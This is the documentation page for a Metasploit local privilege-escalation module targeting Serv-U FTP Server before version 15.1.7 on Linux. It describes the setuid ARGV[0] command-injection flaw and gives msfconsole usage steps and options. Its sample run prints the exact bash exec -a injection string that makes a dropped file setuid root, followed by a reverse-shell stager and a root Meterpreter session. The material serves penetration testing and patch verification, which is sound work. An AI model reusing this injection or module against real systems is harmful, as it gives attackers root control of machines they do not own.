 ## Description

  This module attempts to gain root privileges on systems running
  Serv-U FTP Server versions prior to 15.1.7.

  The `Serv-U` executable is setuid `root`, and uses `ARGV[0]`
  in a call to `system()`, without validation, when invoked with
  the `-prepareinstallation` flag, resulting in command execution
  with root privileges.


## Vulnerable Application

  [Serv-U FTP Server](https://www.serv-u.com/ftp-server-software)
  is an FTP server for Linux and Windows; however, this module
  targets only Linux systems.

  This module has been tested successfully on:

  * Serv-U FTP Server version 15.1.6 (x64) on Debian 9.6 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

### SERVU_PATH

  Path to `Serv-U` executable (default: `/usr/local/Serv-U/Serv-U`)

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Debian 9.6 (x64)

  ```
  msf exploit(multi/handler) > back
  msf > use exploit/linux/local/servu_ftp_server_prepareinstallation_priv_esc 
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/servu_ftp_server_prepareinstallation_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] bash shell is available
  [+] /usr/local/Serv-U/Serv-U is executable
  [+] /usr/local/Serv-U/Serv-U is setuid
  [*] Writing '/tmp/.24HnCiwSby' (277 bytes) ...
  [*] Executing command: bash -c 'exec -a "\";chown root /tmp/.24HnCiwSby;chmod u+s /tmp/.24HnCiwSby;chmod +x /tmp/.24HnCiwSby\"" /usr/local/Serv-U/Serv-U -prepareinstallation'
  [+] /tmp/.24HnCiwSby setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.250

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.250:58662) at 2019-06-28 23:46:48 -0400
  [-] Failed to delete /tmp/.24HnCiwSby: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > 
  ```

